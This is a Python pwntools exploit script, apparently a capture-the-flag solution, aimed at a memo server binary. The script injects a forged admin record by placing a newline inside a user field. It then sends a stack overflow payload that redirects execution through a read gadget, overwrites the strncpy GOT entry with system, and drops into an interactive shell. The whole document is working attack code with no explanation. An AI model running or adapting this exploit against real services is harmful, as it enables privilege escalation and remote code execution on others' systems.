 ``` python
def update_memo(s, token, payload):
    json = f"{{token:{token},method:UpdateMemo}}"
    s.send(json.encode())
    pause()
    s.send(payload)
    return

def main(server, port, debug):
    if(port):
        s = remote(server, port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    token = create_session(s, "guest", "guest").split(b"token:")[1].split(b"}")[0].decode()
    log.info(f"guest token : {token}")

    create_user(s, token, "AAAA", "AAAA", "AAAA]\n[1|admin|admin|admin memo")

    clear_session(s)
    sleep(0.5)

    token = create_session(s, "admin", "admin").split(b"token:")[1].split(b"}")[0].decode()
    log.info(f"admin token : {token}")

    read_strncpy_gadget = 0x40214C
    payload = b"/bin/sh\n" * 2
    payload += p64(elf.got['strncpy'] + 0x10)   # rbp
    payload += p64(read_strncpy_gadget)         # ret
    update_memo(s, token, payload)

    sleep(0.5)
    payload = p64(0x4010a0)                     # system
    s.send(payload)

    s.interactive()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```